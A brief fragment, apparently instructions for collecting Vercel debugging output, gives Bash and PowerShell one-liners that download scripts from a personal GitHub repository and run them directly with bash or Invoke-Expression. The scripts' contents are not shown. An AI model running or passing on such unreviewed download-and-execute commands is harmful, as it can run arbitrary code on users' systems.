 Commands to run:

## Mac/Linux (Bash/ZSH):
    echo "Enter Affected Domain: " && read domain && curl -s https://raw.githubusercontent.com/robachicken/test-ping/main/linux.sh | bash -s $domain | tee vercel-debug.txt

## Windows (Powershell): 
    Invoke-RestMethod -Uri https://raw.githubusercontent.com/robachicken/test-ping/main/windows.ps1 | Invoke-Expression | tee vercel-debug.txt
